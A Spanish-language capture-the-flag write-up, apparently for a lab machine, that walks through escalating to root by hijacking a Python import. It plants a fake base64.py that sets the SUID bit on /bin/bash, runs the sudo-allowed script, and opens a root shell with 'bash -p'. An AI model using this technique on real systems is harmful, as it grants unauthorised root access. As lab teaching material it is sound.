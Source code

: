 Sabiendo esto, es claro que podemos intentar aplicar **Python Library Hijacking**.

Para hacerlo, necesitamos conocer si el script está utilizando el directorio actual para buscar módulos que necesite usar.

Esto lo podemos saber si obtenemos los paths de las librerías actuales que utiliza **Python**:
```bash
arasaka@Cyberpunk:~$ python3 -c 'import sys; print(sys.path)'
['', '/usr/lib/python311.zip', '/usr/lib/python3.11', '/usr/lib/python3.11/lib-dynload', '/usr/local/lib/python3.11/dist-packages', '/usr/lib/python3/dist-packages']
```
Ahí está, este directorio sí está siendo utilizado por el script.

Ahora, necesitamos conocer el binario que está ocupando la **librería base64** del script:
```bash
arasaka@Cyberpunk:~$ python3 -c "import base64; print(base64.__file__)"
/usr/lib/python3.11/base64.py
```
Lo tenemos, se llama `base64.py`.

Tan solo tenemos que crear un script que cambie los permisos de la **Bash** para que tenga **permisos SUID**.

El script debe tener el mismo nombre del binario a suplantar:
```python
import os
os.system("chmod u+s /bin/bash")
```

Revisa los permisos de la **Bash**:
```bash
arasaka@Cyberpunk:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```

Ya solamente, ejecutamos el script `randombase64.py` como **Root**:
```bash
arasaka@Cyberpunk:~$ sudo /usr/bin/python3.11 /home/arasaka/randombase64.py
Enter your string hackeado   
Traceback (most recent call last):
  File "/home/arasaka/randombase64.py", line 4, in <module>
    base64_bytes = base64.b64encode(message_bytes)
                   ^^^^^^^^^^^^^^^^
AttributeError: module 'base64' has no attribute 'b64encode'
```
Observa como falla el script al no funcionar la **librería base64** real.

Comprobamos los permisos de la **Bash**:
```bash
arasaka@Cyberpunk:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Funciono.

Y ejecutamos la **Bash** como **Root**:
```bash
arasaka@Cyberpunk:~$ bash -p
bash-5.2# whoami
root
```
Listo, ya somos **Root**.
